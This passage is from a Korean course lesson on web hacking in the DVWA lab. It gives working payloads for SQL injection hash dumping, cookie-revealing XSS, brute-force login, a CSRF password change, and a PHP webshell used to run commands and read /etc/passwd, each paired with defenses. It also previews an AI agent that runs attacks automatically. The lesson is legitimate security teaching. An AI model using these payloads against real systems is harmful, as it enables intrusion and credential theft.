SELECT first_name, last_name FROM users WHERE user_id = '입력한 값';
```

`입력한 값` 자리에 우리가 입력칸에 친 글자가 **그대로 끼워 넣어진다.** 만약 우리가 평범하게 `1` 을
넣으면 `... WHERE user_id = '1'` 이 되어 1번 회원만 조회된다. 안전해 보인다.

그런데 우리가 `1' UNION SELECT user, password FROM users #` 를 넣으면, 서버는 의심 없이 이렇게
조립한다.

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' UNION SELECT user, password FROM users #';
```

여기서 `UNION SELECT user, password FROM users` 는 "원래 결과 뒤에 **회원 테이블의 아이디·비번도
이어 붙여라**" 라는 명령이고, 끝의 `#` 는 "이 뒤는 무시해(주석)" 라는 뜻이다. 결국 DB는 1번 회원
이름 대신 **모든 회원의 아이디와 비밀번호 해시**를 통째로 내준다. 이것이 오늘 실습 ②의 정확한
원리다.



---

## 4. OWASP Top 10 — 빈집털이 단골 수법 톱10

### 4.1 한 줄 정의

> **용어 — OWASP Top 10.** OWASP라는 국제 웹 보안 단체가 정리한, **세상에서 가장 흔하고 위험한
> 웹 취약점 10가지** 목록이다. 도둑들의 "단골 수법 톱10"처럼, 웹을 지키거나 점검하는 사람이라면
> 누구나 먼저 외우는 표준 체크리스트다. 몇 년마다 갱신되며 최신은 2021년판이다.

### 4.2 오늘의 다섯 공격이 어디에 속하나

오늘 우리가 손으로 뚫을 다섯 가지가 이 톱10의 어디에 박혀 있는지 보자. 다섯 개 모두 톱10 안에
정확히 자리 잡고 있다는 사실 자체가, 이들이 얼마나 흔하고 위험한지를 말해 준다.

| 우리가 할 것 | OWASP 분류 | 한 줄 |
|--------------|-----------|------|
| SQL 인젝션 | **A03 Injection** | 입력에 SQL을 끼워 DB를 턴다 |
| XSS | **A03 Injection** | 입력에 스크립트를 끼워 남의 브라우저에서 실행 |
| 인증우회 / Brute Force | **A07 식별·인증 실패** | 시도 제한 없음·약한 비밀번호를 노린다 |
| CSRF | **A01 접근통제 실패** | 남이 모르게 요청을 대신 보내게 만든다 |
| 파일 업로드(웹셸) | **A04 안전하지 않은 설계 / A05 보안설정 오류** | 위험한 파일을 올려 서버를 장악 |

### 4.3 다섯 갈래, 한 뿌리

이 표를 그림으로 그리면, §0.5에서 외운 그 한 문장이 다시 보인다. 다섯 공격은 모두 **"사용자 입력을
너무 믿는다"** 라는 한 뿌리에서 갈라져 나온 가지다.



---

## 5. 오늘의 다섯 공격 — 원리·페이로드·결과·실제 사례·방어

이제 본론이다. 다섯 공격을 하나씩, 같은 틀로 본다 — **왜 통하나 → 정확한 페이로드 → 화면에 보일
결과와 그 해석 → 실제 유출 사례 → 방어책.** 모든 페이로드는 실습(lab)과 한 글자도 다르지 않다.

### 5.1 SQL 인젝션 (SQLi)

**왜 통하나.** §3에서 봤듯, 서버가 입력칸의 글자를 **SQL 문장에 그대로 합쳐** 실행하기 때문이다.
입력을 데이터가 아니라 명령으로 받아들이는 순진함이 원인이다.

**정확한 페이로드.** User ID 입력칸에 아래를 그대로 붙여넣고 Submit.

```
1' UNION SELECT user, password FROM users #
```

**화면에 보일 결과와 해석.** Submit을 누르면 화면에 `admin`, `gordonb`, `1337` 같은 **여러
사용자명**과 그 옆에 `5f4dcc3b5aa765d61d8327deb882cf99` 같은 **32자리 해시 문자열**이 줄줄이
나타난다. 이게 나오면 성공이다. 해석은 단순하다 — 입력 한 줄로 **회원 비밀번호가 통째로 샜다.**
참고로 admin의 해시 `5f4dcc...cf99` 는 비밀번호 `password` 의 MD5 값으로, 이런 약한 비번은 해시만
봐도 원문이 들통난다.

**실제 사례 훅.** 2021년 한국 인터파크 침해(17,011건)는 SQL 인젝션으로 인증을 우회하고 권한을
끌어올려 데이터가 샌 사고였다. 입력 한 줄이 수만 명의 개인정보를 빼낸 것이다.

**방어책.** 근본 해법은 **파라미터라이즈드 쿼리(prepared statement)** — 입력값을 SQL 문자열에
이어 붙이지 않고, 쿼리의 빈칸에 **데이터로만** 끼워 넣는 방식이다. 그러면 `UNION SELECT ...` 같은
입력이 SQL 문법이 아니라 그냥 글자 값으로 취급되어 질의 구조를 바꾸지 못한다.

### 5.2 XSS (Cross-Site Scripting)

**왜 통하나.** 서버가 입력칸의 글자를 **화면 HTML에 그대로 출력**하기 때문이다. 내가 `<script>` 를
넣으면 그게 글자가 아니라 **실행되는 코드**로 페이지에 박힌다. 그 페이지를 보는 사람의 브라우저가
내 코드를 대신 실행한다.

**정확한 페이로드.** "What's your name?" 칸에 먼저 경고창을 띄워 본다.

```
<script>alert('XSS')</script>
```

이어서 같은 칸에 이번엔 쿠키를 띄운다.

```
<script>alert(document.cookie)</script>
```

**화면에 보일 결과와 해석.** 첫 번째 입력에서 **경고창**이 뜨면, 내가 넣은 코드가 실행됐다는
증거다. 두 번째 입력에서는 경고창에 **`PHPSESSID=...`**, 즉 내 입장 도장 값이 그대로 보인다. 여기서
감각을 잡아야 한다 — `document.cookie` 는 현재 페이지의 쿠키 값이고, 실제 공격에선 이 값을
경고창에 띄우는 대신 **공격자 서버로 몰래 전송**한다. 그러면 §0.5.2에서 말한 "도장 베끼기",
즉 **세션 탈취**가 된다.

**실제 사례 훅.** 2005년 마이스페이스의 'Samy 웜'은 XSS 한 줄로 24시간 만에 100만 명 이상의
프로필을 감염시켰다. 한 사람의 입력이 자동으로 퍼져 나가는 XSS의 위력을 보여준 대표 사건이다.

**방어책.** 출력할 때 `<`, `>` 같은 특수문자를 **무해한 기호로 변환(이스케이프)** 해 코드가 아니라
글자로만 보이게 한다. 그리고 세션 쿠키에 **`HttpOnly`** 를 붙여 자바스크립트가 쿠키를 읽지 못하게
한다(도장을 옷 안에 숨기기).

### 5.3 인증우회 / Brute Force

**왜 통하나.** 로그인에 **시도 횟수 제한(lockout)이 없으면**, 흔한 비밀번호를 무한히 시도해 언젠가
맞힐 수 있다. 서버가 "몇 번이나 틀렸는데 또 시도하네?" 라고 의심하지 않고 매번 받아주기 때문이다.

**정확한 절차.** Brute Force 메뉴에서 Username `admin`, Password `123456` 으로 로그인 → 실패.
다시 Password `password` 로 로그인 → 성공. 그리고 **여러 번 틀려도 계정이 잠기지 않음**을 관찰한다.

**화면에 보일 결과와 해석.** `admin`/`password` 로 들어가면 `Welcome to the password protected
area admin` 메시지가 뜬다. 핵심 관찰은 "성공"이 아니라 **틀려도 안 잠긴다**는 사실이다. 잠금이
없다는 건, 사람이 한 글자씩 칠 필요 없이 **자동 도구로 초당 수백 개 비번을 시도**할 수 있다는 뜻이다.
약한 비밀번호 + 잠금 없음 = 시간문제로 뚫린다.

**실제 사례 훅.** 2012년 링크드인 유출(650만 해시) 이후 번진 '자격증명 스터핑' 물결에서, 시도
제한과 2단계 인증이 없던 수많은 서비스가 자동 대입 공격으로 무더기 탈취당했다.

**방어책.** **시도 횟수 제한(rate-limit·lockout)**, **캡차**, **2단계 인증(MFA)**, 그리고 애초에
강한 비밀번호 정책이다. 이 중 하나만 있어도 무차별 대입은 현실적으로 불가능해진다.



### 5.4 CSRF (Cross-Site Request Forgery)

**왜 통하나.** §1.3에서 봤듯 **쿠키(입장 도장)는 요청 헤더에 자동으로 따라간다.** 그래서 피해자가
로그인된 상태에서 공격자가 만든 링크를 누르기만 하면, 피해자의 도장이 자동으로 실려 요청이
전송된다. 서버는 "정상 회원의 요청"으로 믿고 처리한다 — 어디서 온 요청인지 묻지 않는 것이 약점이다.

**정확한 페이로드.** admin으로 로그인된 상태에서 브라우저 주소창에 아래 주소를 직접 입력해 접속
(`<victim-ip>` 는 실제 IP).

```
http://<victim-ip>:8088/vulnerabilities/csrf/?password_new=hacked123&password_conf=hacked123&Change=Change#
```

**화면에 보일 결과와 해석.** 화면에 **`Password Changed`** 가 뜨면, 주소 한 줄만으로 비밀번호가
`hacked123` 으로 바뀐 것이다. §1.5에서 본 **쿼리 스트링**(`?password_new=hacked123...`)을 그대로
이용한 공격임을 떠올리자. 이 주소를 메일·이미지에 숨겨 피해자가 모르게 클릭하게 만들면, 본인은
손도 안 댔는데 비밀번호가 바뀐다. **클릭 한 번의 위험**이 이것이다.

> ⚠️ **실습 후 원복.** 비밀번호를 원래대로 돌리려면 같은 방법으로 주소의 `password_new` 와
> `password_conf` 를 `password` 로 바꿔 한 번 더 접속한다.

**실제 사례 훅.** 과거 여러 공유기·관리자 페이지가 CSRF로 설정이 바뀌는 사고를 겪었다 — 관리자가
악성 페이지를 여는 순간, 로그인된 공유기 설정이 몰래 변경되는 식이었다.

**방어책.** **CSRF 토큰** — 요청마다 서버가 발급한 비밀 값을 함께 보내게 하고, 그 값이 없으면
거부한다. 공격자는 이 일회용 비밀 값을 모르므로 위조 요청을 만들 수 없다. 보조로 쿠키에
`SameSite` 를 붙여 다른 사이트발 요청엔 도장을 안 보내게 한다.



### 5.5 파일 업로드 → 웹셸 (오늘의 하이라이트)

**왜 통하나.** 사진만 올려야 하는 칸에, 서버가 **올라온 파일이 진짜 사진인지 검사하지 않으면**
PHP 코드 파일을 올릴 수 있다. 그 파일은 서버 안에 저장되고, 서버는 `.php` 파일을 **코드로 실행**
하므로, 그 주소로 접속하는 것만으로 서버에서 내 명령이 돌아간다.

**정확한 페이로드.** 먼저 공격자 VM 터미널에서 한 줄짜리 웹셸 파일을 만든다.

```bash
echo '<?php system($_GET["c"]); ?>' > shell.php
```

이 `shell.php` 를 DVWA File Upload에서 업로드한 뒤, 브라우저로 아래 주소에 접속한다.

```
http://<victim-ip>:8088/hackable/uploads/shell.php?c=id
```

**화면에 보일 결과와 해석.** 화면에 **`uid=33(www-data) gid=33(www-data) ...`** 가 출력되면,
서버에서 `id` 명령이 실행된 것이다. `<?php system($_GET["c"]); ?>` 는 URL의 `c` 값(`id`)을 서버
명령으로 실행하는 한 줄 웹셸이고, `id` 는 현재 실행 사용자를 보여주는 명령이다. 이게 보이면
**원격 명령 실행(RCE) 성공** — 서버가 통째로 내 통제 아래 들어왔다는, 오늘 가장 강력한 증거다.
이어서 `...shell.php?c=cat /etc/passwd` 로 바꾸면 서버의 계정 목록까지 줄줄이 나온다.

**실제 사례 훅.** 웹셸 업로드는 실제 침해에서 가장 흔한 서버 장악 경로 중 하나다. 게시판
첨부파일·이미지 업로드 기능을 통해 웹셸이 올라가 서버 전체가 장악되고 랜섬웨어로 이어진 사고가
국내에서도 반복적으로 보고되어 왔다.

**방어책.** 업로드 파일의 **확장자·실제 내용(MIME)·시그니처를 모두 검증**하고, 허용 목록(사진
확장자만) 방식을 쓰며, **업로드 폴더에서는 코드 실행을 금지**한다. 이 중 마지막 하나(업로드
폴더 실행 금지)만으로도 웹셸은 무력화된다.



---

## 6. 실습 안내 (lab_week03.yaml)

> **준비.** 표적 DVWA를 띄우고 보안등급을 맞추는 것이 실습 전체의 전제다. 희생자 VM에서
> `cd infra && ./start.sh` 로 DVWA를 띄운 뒤, 학생 브라우저(공격자 VM)에서
> `http://<victim-ip>:8088` 에 접속한다. `admin` / `password` 로 로그인하고, **첫 1회**는 하단
> **Create / Reset Database** 를 누른다. 그리고 좌측 **DVWA Security** 를 **반드시 Low** 로 설정한다.
> (Low 여야 변수 없이 똑같은 결과가 나온다. 공격은 학생 브라우저에서, 표적은 희생자 VM의 DVWA다.)

실습은 6 step으로, 웹 관찰 → 다섯 공격 순서로 흐른다. 각 step을 **4축**으로 설명한다 — 왜 하는가 /
무엇을 알게 되나 / 결과 해석 / 실전 의미. 모든 페이로드는 위 §5와 한 글자도 같다.

### Step 1 — 개발자도구로 웹 들여다보기 (10점)

> **왜 하는가?** 공격에 앞서 항상 요청·쿠키를 관찰한다. 어디를 비틀지 알려면 먼저 무엇이 오가는지
> 봐야 한다.
> **무엇을 알게 되나?** F12 → Application(저장소) → Cookies 에서 `PHPSESSID`(내 입장 도장)와
> `security=low`(난이도)를 찾고, Network 탭에서 오간 요청 목록을 본다.
> **결과 해석.** 두 쿠키 값을 화면에서 찾으면 통과. `PHPSESSID` 가 곧 내 세션이고, `security=low`
> 여야 이후 실습이 그대로 통한다.
> **실전 의미.** 이 도장 값을 남이 알면 나인 척 들어올 수 있다 — 곧이어 XSS에서 이 쿠키를 훔치는
> 실습으로 이어진다.

### Step 2 — SQL 인젝션 (20점)

> **왜 하는가?** 입력을 안 거른 서버가 DB를 통째로 내준다는 사실을 한 줄로 체감한다.
> **무엇을 알게 되나?** SQL Injection 메뉴 → User ID 칸에 `1' UNION SELECT user, password FROM
> users #` 를 그대로 넣고 Submit.
> **결과 해석.** `admin`·`gordonb` 등 여러 사용자명과 32자리 해시가 줄줄이 나오면 성공. 입력
> 한 줄로 비밀번호가 통째로 샌 것이다.
> **실전 의미.** 입력을 명령으로 받아들이는 순간 DB 전체가 노출된다. 근본 방어는 파라미터라이즈드
> 쿼리다.

### Step 3 — XSS (18점)

> **왜 하는가?** 내가 넣은 글자가 남의 브라우저에서 코드로 실행된다는 감각을 잡는다.
> **무엇을 알게 되나?** XSS (Reflected) 메뉴 → 이름 칸에 `<script>alert('XSS')</script>` 로
> 경고창을 띄우고, 이어 `<script>alert(document.cookie)</script>` 로 쿠키를 띄운다.
> **결과 해석.** 두 번째 입력에서 경고창에 `PHPSESSID=...` 가 보이면 성공. 이 값을 외부로 빼돌리면
> 세션 탈취가 된다.
> **실전 의미.** 출력 이스케이프와 `HttpOnly` 쿠키가 방어책. 입력을 화면에 그대로 출력하면 안 된다.

### Step 4 — 인증우회 / Brute Force (14점)

> **왜 하는가?** 시도 제한이 없으면 무차별 대입이 통한다는 것을 직접 확인한다.
> **무엇을 알게 되나?** Brute Force 메뉴 → `admin`/`123456`(실패) → `admin`/`password`(성공). 여러
> 번 틀려도 잠기지 않음을 관찰.
> **결과 해석.** `Welcome to the password protected area admin` 이 뜨고, 반복 실패에도 잠금이 없으면
> 통과. 잠금 없음 = 자동 도구로 무한 시도 가능.
> **실전 의미.** 방어책은 시도 제한·캡차·2단계 인증. 약한 비번 + 잠금 없음은 시간문제로 뚫린다.

### Step 5 — CSRF (14점)

> **왜 하는가?** 클릭 한 번으로 위조된 요청이 통한다는 위험을 체감한다.
> **무엇을 알게 되나?** CSRF 메뉴(admin 로그인 상태) → 주소창에
> `.../csrf/?password_new=hacked123&password_conf=hacked123&Change=Change#` 를 직접 입력해 접속.
> **결과 해석.** `Password Changed` 가 뜨고, 로그아웃 후 `admin`/`hacked123` 으로 로그인되면 성공.
> (실습 후 같은 방법으로 `password` 로 원복.)
> **실전 의미.** 쿠키가 요청에 자동으로 실리는 점을 악용한 공격. 방어책은 CSRF 토큰 검증이다.

### Step 6 — 파일 업로드(웹셸) (25점) — 오늘의 하이라이트

> **왜 하는가?** 서버를 통째로 장악하는, 오늘 가장 강력한 공격을 직접 성공시킨다.
> **무엇을 알게 되나?** 터미널에서 `echo '<?php system($_GET["c"]); ?>' > shell.php` 로 웹셸을
> 만들고, File Upload 로 올린 뒤 `http://<victim-ip>:8088/hackable/uploads/shell.php?c=id` 에 접속.
> **결과 해석.** 화면에 `uid=33(www-data) ...` 가 나오면 RCE 성공 — 서버 명령이 내 손에서 실행된
> 것이다. `?c=cat /etc/passwd` 로 확장 확인.
> **실전 의미.** 업로드 파일의 확장자·내용 검증과 업로드 폴더 실행 금지가 방어책. 검증 없는 업로드는
> 서버 장악으로 직결된다.

---

## 7. 자주 하는 실수 / FAQ

여기서 막히는 사람이 많다. 결과가 안 나오면 거의 항상 아래 중 하나다.

**Q. SQL 인젝션·XSS·웹셸이 안 통해요.** 십중팔구 **DVWA Security가 Low가 아니다.** 좌측 메뉴
**DVWA Security** 에서 등급을 확인하고 **Low** 로 바꾼 뒤 Submit 했는지 보자. Medium·High·Impossible
에서는 입력이 걸러져 오늘의 페이로드가 그대로 통하지 않는다. Low가 아니면 아무것도 진행되지 않는다.

**Q. 첫 화면에 메뉴가 안 보이거나 DB 오류가 떠요.** 첫 1회 **Create / Reset Database** 를 안 눌렀을
가능성이 크다. 하단의 그 버튼을 눌러 DB를 초기화하면 모든 메뉴가 정상화된다. 실습을 망쳐 꼬였을
때도 이 **Reset Database** 로 처음 상태로 되돌릴 수 있다.

**Q. CSRF로 비번을 바꿨더니 다음 실습에서 로그인이 안 돼요.** `hacked123` 으로 바뀐 것이다. 같은
CSRF 방법으로 `password_new=password&password_conf=password` 로 한 번 더 접속해 **원래 비번으로
원복**하거나, `admin`/`hacked123` 으로 로그인하면 된다.

**Q. 페이로드를 넣어도 그냥 글자로만 보여요.** 복사할 때 따옴표가 다른 모양(예: `'` → `’`)으로
바뀌었거나, 앞뒤 공백이 끼었을 수 있다. lab의 코드 블록에서 **그대로** 복사해 넣자. 특히 SQL의
끝 `#` 와 웹셸의 따옴표를 빠뜨리지 않도록 한다.

**Q. 웹셸 주소가 404가 떠요.** 업로드 성공 시 화면에 표시된 저장 경로(보통
`../../hackable/uploads/shell.php`)를 확인하자. 접속 주소는 그 경로를 풀어 쓴
`http://<victim-ip>:8088/hackable/uploads/shell.php?c=id` 다. `<victim-ip>` 자리에 실제 표적 IP를
넣어야 한다.

**Q. 공격은 어디서 하나요?** 공격은 항상 **학생 브라우저(공격자 VM)** 에서 한다. 표적은 희생자
VM의 DVWA(`:8088`)다. 두 역할을 헷갈리지 말자.

---

## 8. 다음 주차 예고

오늘 학생은 다섯 가지 웹 해킹을 **손으로** 한 땀 한 땀 성공시켰다. SQL 한 줄을 외우고, 페이로드를
복사하고, 결과 화면을 읽었다. 이 모든 과정에는 **사람의 손과 시간**이 들었다.

다음 주(Week 04)엔 이 일을 **AI 에이전트가 대신** 한다. 가상 은행 **NeoBank** 를 표적으로, 정해진
**프롬프트를 복사 → 붙여넣기** 만 하면 **Claude Code** 가 정찰부터 취약점 점검, **보고서 작성**까지
스스로 진행한다. 오늘 손으로 익힌 SQLi·XSS·인증우회·CSRF의 원리가, AI의 손에서 얼마나 빨라지는지
직접 본다. 오늘 원리를 손으로 익혔기에, 다음 주 AI가 무엇을 하는지 비로소 알아볼 수 있다.


